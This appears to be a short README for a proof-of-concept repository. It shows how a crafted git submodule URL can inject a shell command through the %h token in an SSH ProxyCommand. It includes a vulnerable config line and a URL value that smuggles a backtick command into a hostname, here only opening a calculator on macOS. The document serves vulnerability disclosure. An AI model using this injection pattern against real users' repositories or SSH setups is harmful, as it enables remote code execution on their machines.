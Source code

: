 ## RCE via insecure `~/.ssh/config`

Use of tokens like %h, %p in `ProxyCommand` is quite popular to use tunnels and connection proxying using SSH.

### Vulnerable config

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

Note: in my initial assessment I was under the impression that using '%h` (single quotes) would avoid this, but looks like that is still going to be vulnerable with something like:

```
url = ssh://'`open -aCalculator`'foo.example.com/bar
```

Taken from: https://man.openbsd.org/ssh_config#ProxyCommand

### What is in this repository

A submodule which would exploit this vulnerability to pop a calculator on OSX.

Try it out using: `git clone https://github.com/vin01/poc-proxycommand-vulnerable --recurse-submodules`
